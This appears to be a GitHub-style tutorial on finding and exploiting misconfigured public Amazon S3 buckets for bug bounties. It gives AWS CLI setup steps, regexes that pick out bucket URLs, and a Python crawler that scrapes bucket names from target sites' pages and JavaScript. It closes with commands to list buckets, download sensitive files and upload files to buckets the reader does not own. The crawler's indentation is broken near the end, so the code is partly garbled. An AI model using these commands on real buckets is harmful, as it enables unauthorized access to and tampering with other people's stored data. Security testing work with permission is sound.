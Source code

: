 # What Is An Amazon S3 Bucket?
Is a public static cloud file storage resource available in Amazon Web Services’ (AWS) Simple Storage Service (S3), an object storage offering. S3 buckets, are similar to file folders, store objects, which consist of data and its descriptive metadata.

# The Weakest Link
- Many web developers use this service to host files like JavaScript, HTML, image, CSS.
```bash
.s3.amazonaws.com/js/main.js
```

- developers configure unnecessary policies and configuration for public users. This can leads to unauthorized file access, upload, and delete.
# How to Exploit This?
* Step 1 :
- Create amazon accound. Get Your Access Key and Secret Key
```bash
pip install aws-cli #or pip install awscli
aws configure
# It will ask you for an access key and secret key. Just add the previously made keys.
```

* Step 2 :
```bash
https://bucket-name.s3.Region.amazonaws.com/ #key name
https://my-bucket.s3.us-west-2.amazonaws.com/puppy.png
```
- my-bucket is bucket name
- puppy.png is the key name
- Us-west is the bucket region

## Regex
```bash
[\w\-\.]+\.s3\.?(?:[\w\-\.]+)?\.amazonaws\.com|
(?<!\.)s3\.?(?:[\w\-\.]+)?\.amazonaws\.com\\?\/[\w\-\.]+
```
- Regex To Detect S3 buckets

## JavaScript
- Most s3 buckets are hiding inside JavaScript files
- Find JS Paths
```bash
(?<=src=[‘\”])[a-zA-Z0–9_\.\-\:\/]+\.js
```

### Python Script Fo Automation
```python 
import requests,re
from urllib.parse import unquote
import checkdomains
domains = open("Domains-to-test.txt","r")
for domain in domains.readlines():
    subdomains = open(domain.rstrip("\n")+"_subdomains.txt","r")
    for subdomain in subdomains.readlines():
        buckets = []
        urls = checkdomains.isdomainlive(subdomain.rstrip("\n"))
        if urls:
           for url in urls:
              print("checking - "+url)
              try:
                 html=requests.get(url=url,timeout=20,verify=False).content
                 try:
                   html=unquote(str(html))
                 except Exception as e:
                        print(e)
                 regjs=r"(?<=src=['\"])[a-zA-Z0-9_\.\-\:\/]+\.js"
                 regs3=r"[\w\-\.]+\.s3\.?(?:[\w\-\.]+)?\.amazonaws\.com|(?<!\.)s3\.?(?:[\w\-\.]+)?\.amazonaws\.com\\?\/[\w\-\.]+"
                 js=re.findall(regjs,html)
                 s3=re.findall(regs3,html)
                 buckets=buckets+s3
                 if len(js)>0:
                   for i  in js:
                       if i.startswith('//'):
                          jsurl=i.replace('//','http://')
                       elif i.startswith('http'):
                          jsurl=i
                       else:
                          jsurl=url+'/'+i
                       try:
                          jsfile=requests.get(jsurl,timeout=20).content
                          s3=re.findall(regs3,jsfile)
                       except Exception as y:
                             pass
                       if s3:
                         buckets=buckets+s3
              except Exception as x:
                    pass
                for bucket in buckets:
                      print(bucket)
```


# Exploitation
- To test any found buckets, open your Terminal and run the following commands.
```bash
aws s3 ls s3://whateverbucketname
```
- Check for any sensitive files presence, and if there is any, try to download it to your box
```bash
aws s3 cp s3://whateverbucketname/secret.txt
```
- You can also upload files, to do this just run,
```bash
aws s3 mv Exploit.txt s3://whateverbucketname/
```

- [WriteUp](https://infosecwriteups.com/finding-and-exploiting-s3-amazon-buckets-for-bug-bounties-6b782872a6c4)


